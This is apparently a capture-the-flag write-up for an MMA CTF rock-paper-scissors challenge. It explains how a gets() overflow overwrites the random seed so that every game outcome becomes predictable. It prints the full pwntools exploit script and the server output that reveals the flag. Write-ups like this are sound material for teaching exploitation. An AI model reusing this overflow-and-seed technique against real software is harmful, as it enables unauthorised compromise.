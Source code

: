 ### Solved by superkojiman

Rock-paper-scissors game. We need to win 50 times. The binary uses gets() when getting our name. Since gets() does no bounds checking, we can overwrite RIP: 

```
buf += "A"*88 + "B"*6   # rip == 0x424242424242
```

However the binary also calls srand(int) and we can overwrite the seed along with RIP. In this case, the seed gets overwritten with 0x41414141. This  means we can predict the pseudorandom values rand() generates later. 

If we win 50 times the fopen("flag.txt", "r") is called. I tried returning to fopen@plt and setting the right args, but it crashes somewhere in fopen(). Rather than spending some more time debugging it, I decided to do it the slow way by just running the binary and feeding it R/P/S and seeing which one won. Since we control the seed, we get the same results. 

Run against the server:

```
.
.
.
Game 49/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 50/50
Rock? Paper? Scissors? [RPS]Scissors-Paper
You win!!
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAmma!!!!
MMA{treed_three_girls}
```


The exploit: 

```python
#!/usr/bin/env python

from pwn import *

buf = ""
buf += "A"*88
buf += "B"*6

buf += "R\n"                    
buf += "R\n"                    
buf += "R\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "R\n"                    
buf += "P\n"                    
buf += "R\n"                    
buf += "R\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "S\n"                    
buf += "R\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "P\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "R\n"                    
buf += "R\n"                    
buf += "R\n"                    
buf += "P\n"                    
buf += "R\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "S\n"                    
buf += "R\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "S\n"                    
buf += "R\n"                    
buf += "P\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "R\n"                    
buf += "R\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "R\n"                    
buf += "S\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "P\n"                    
buf += "S\n"                    
buf += "\n"

r = remote("milkyway.chal.mmactf.link", 1641)
print r.recv()
r.sendline(buf)
print r.recvall()
```
